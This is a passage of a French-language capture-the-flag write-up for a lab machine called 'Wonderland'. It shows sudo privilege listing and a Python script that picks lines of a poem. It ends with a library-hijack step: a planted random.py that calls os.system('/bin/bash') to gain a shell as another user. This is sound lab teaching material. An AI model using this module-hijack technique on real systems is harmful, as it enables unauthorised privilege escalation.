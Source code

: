 ```bash
$ cat /root/user.flag
thm{"**************"}
```

Bien, nous venons de trouver le flag de **user**!

* * *

La commande `sudo -l` permet de lister les privilèges qu'un utilisateur possède avec 'sudo' :

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```

Affichons le script **'/home/alice/walrus\_and\_the_carpenter.py**':

```python
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
...SNIPPED...
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Ce script génère 10 lignes aléatoires extraites du poème "The Walrus and the Carpenter" de Lewis Carroll en utilisant le module "random" de Python.
La première partie du script définit une chaîne de caractères qui contient le poème complet sous la variable poem. Le poème est ensuite divisé en lignes en utilisant la méthode split("\\n"), qui retourne une liste de toutes les lignes.
Ensuite, une boucle for est utilisée pour itérer 10 fois. À chaque itération, une ligne aléatoire est choisie à partir de la liste de lignes en utilisant la fonction random.choice(), et est stockée dans la variable line. La ligne sélectionnée est ensuite imprimée à l'écran avec le préfixe "The line was:" en utilisant la fonction print().

Le script **walrus\_and\_the_carpenter.py** importe le module **random**, on va créer un fichier **random.py** pour voir si le script charge notre module perso **random.py** lors de l'excecution du script:

On créé un fichier **random.py** dans **/home/alice/** :

```python3
import os

os.system("/bin/bash")
```
